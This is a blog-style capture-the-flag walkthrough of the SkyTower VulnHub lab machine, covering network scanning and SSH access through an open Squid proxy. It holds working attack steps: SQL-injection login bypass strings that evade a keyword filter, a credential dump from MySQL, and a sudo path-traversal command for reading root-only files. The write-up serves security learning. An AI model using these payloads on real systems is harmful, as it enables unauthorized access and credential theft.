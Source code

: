 ```yaml
---
layout: post
title: "SkyTower writeup"
subtitle: "~ Walkthrough of SkyTower machine ~"
date: 2017-10-31
author: V3ded
category: CTF
tags: blog ctf pentesting 
finished: true
---
```


# Introduction

Next walkthrough [VM](https://www.vulnhub.com/entry/skytower-1,96/) was made by Telspace Systems for a BSidesCPT security summit. Rated intermediate difficulty and assigned to 'todo' machines as preparation for OSCP I decided to give it a try. *Time to start!* 

***

# Recon

Start with **netdiscover** to find the initial SkyTower's IP:

```console
 Currently scanning: 192.168.31.0/16   |   Screen View: Unique Hosts                                           
                                                                                                               
 22 Captured ARP Req/Rep packets, from 9 hosts.   Total size: 1320                                             
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.1.12    [REDACTED]           1       60      Apple, Inc.                                                 
 192.168.1.12    [REDACTED]           2       120     AzureWave Technology Inc.                                   
 192.168.1.1     [REDACTED]           8       480     ADB Broadband Italia                                        
 192.168.1.16    08:00:27:73:b0:c     9       2       120  PCS Systemtechnik GmbH                                      
 192.168.1.10    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.11    [REDACTED]           1       60      Unknown vendor                                              
 192.168.1.14    [REDACTED]           1       60      LG Innotek                                                  
 0.0.0.0         [REDACTED]           2       120     Apple, Inc.                                                 
 192.168.1.17    [REDACTED]           4       240     Apple, Inc.                                                 

```

Our target is **192.168.1.16**!

Proceed with **nmap** scan to find open ports and their services:

```console
root@EdgeOfNight:~# nmap -A -T5 -sS 192.168.1.16

Starting Nmap 7.60 ( https://nmap.org ) at 2017-10-31 12:43 GMT
Warning: 192.168.1.16 giving up on port because retransmission cap hit (2).
Nmap scan report for 192.168.1.16
Host is up (0.00034s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:GET
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:73:B0:C9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2
OS details: Linux 3.2, Linux 3.2 - 3.16
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.34 ms 192.168.1.16

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.75 seconds
```

Nmap scan shows, that there is a running HTTP Apache web server. Upon loading the page in a browser we get a result:

<img src="/img/blog/skytower/skytower-01.png">

An interesting page and a login functionality! I wonder how it reacts to SQL statements? Login crashes when we input a simple apostrophe - `'` inside username field. Clear sign of an SQL injection. 

<img src="/img/blog/skytower/skytower-02.png">  

A common login bypass would be a crafted request which looks very similar to: `' OR 1=1#`. Unfortunately there is a filter which prevents the injection:
 
<img src="/img/blog/skytower/skytower-03.png">  

`OR` and `=` completely dissapeared from the query. Hmm... A certain filter is blocking SQL keywords to prevent a disaster. If you don't know what to do, you should read an [article](https://www.owasp.org/index.php/SQL_Injection_Bypassing_WAF) about bypassing filters / WAFs by OWASP. After enough trial and error I found a string which worked. `' OORR 1=1#` bypasses the defenses and puts us past the login!  

<img src="/img/blog/skytower/skytower-04.png">  

Alternatively, `' || 1=1#` will work as well. 

***

# Exploitation

* Username: john
* Password: hereisjohn

Nice! Before using the credentials we need to get past `filtered` port issue. If you remember, our *nmap* scan only showed SSH as filtered. Not opened. We can use **Squid proxy** (port:*3128*) to solve the problem. Doing a bit of enumeration, it is easy to see that the proxy isn't password protected and therefore we can add it to our proxychains list for later usage. 

Edit `/etc/proxychains.conf` file and add:
```console
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
http	192.168.1.16	3128 #SQUID PROXY
``` 

After that just connect to SSH via proxychains:
```console
proxychains ssh john@192.168.1.16
``` 

<img src="/img/blog/skytower/skytower-05.png">

Unfortunately the connection immediately drops. Most probably because `.bashrc` file has an *exit* instruction somewhere within it. To circumvent this, I just rename `.bashrc` on the target system and retry the login. This can be done by chaining a command right after doing SSH connect:

<img src="/img/blog/skytower/skytower-06.png">

Because `.bashrc` file has no longer an effect on our session, we are greeted with a nice shell! 

> Theoretically you can run any command by the previously mentioned method. Feel free to bypass the restriction any way you feel.

***

# Privilege Escalation

Browsing around the filesystem I notice there is an active instance of *MYSQL* database running. You can either guess the correct password (default) or find it inside `/var/www/login.php`.  

<img src="/img/blog/skytower/skytower-07.png">

Funny or not, you can also see the filter which prevented us from doing simple SQL injections. Enough of talking though. Connect to the database and get the sweet credentials!

```console
john@SkyTower:/var/www$ mysql -u root -p
Enter password: root

mysql> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.00 sec)

mysql> USE SkyTech;
Database changed

mysql> SHOW TABLES;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)

mysql> SELECT * FROM login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)
```
If some of the queries are unclear I recommend reading a MySQL [cheatsheet](https://www.digitalocean.com/community/tutorials/a-basic-mysql-tutorial) by DigitalOcean. 

Afterwards I tried to login as Wiliam, but his credentials don't work. However Sara's do! She has the same *exit* annoyance thingy in `.bashrc` as John, but fear not. We already know how to go around it :).

<img src="/img/blog/skytower/skytower-08.png">

Then do `sudo -l`

<img src="/img/blog/skytower/skytower-09.png">

which reveals we can run `/bin/cat /accounts/` under root privileges. This alows for a path traversal and `cat`-ing of protected content. In my case the root flag.

```console
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$ 
```

Just do `su root`, enter the password and BAAM! 

<img src="/img/blog/skytower/skytower-10.png">

## Rooted!

***

# Conclusion

In my opinion a prety solid box. I learnt few new things and had fun while doing so. What more can you wish for?! My thanks goes to **bitvijays** for providing me with guidance when I got stuck once or twice. Check out his blog at <http://bitvijays.github.io/> ! If there are any questions feel free to reach out to me by sending an email or leaving a comment down bellow.  

~V3 

<img src="/img/blog/skytower/bye.png">
